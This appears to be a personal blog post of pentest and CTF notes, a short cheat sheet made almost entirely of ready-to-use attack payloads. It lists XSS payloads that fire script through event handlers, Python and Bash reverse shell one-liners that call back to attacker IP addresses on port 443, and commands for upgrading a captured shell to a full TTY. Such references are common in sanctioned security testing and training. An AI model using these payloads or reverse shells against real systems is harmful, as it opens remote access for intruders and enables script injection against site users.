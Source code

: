 ```yaml
---
title: Payloads and Notes
date: 2023-06-04 00:49:50 -0300
categories: [Hacking, Notes, Web Exploitation]
tags: [hacking, payloads, post exploitation]     # TAG names should always be lowercase
---
```


# Payloads and Notes
Information that I found useful during pentests or ctf's

## Payloads

### XSS
```
<p ondragend=[1].map(prompt) draggable="true">dragMe</p>
<img/src=x onerror=prompt(1)>
<svg onload=alert(1)<
```

### Reverse Shells
```
#Python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.8",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

#Bash
bash -c '/bin/bash -i >& /dev/tcp/10.9.34.191/443 0>&1'
```

### TTY Treatment
```
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
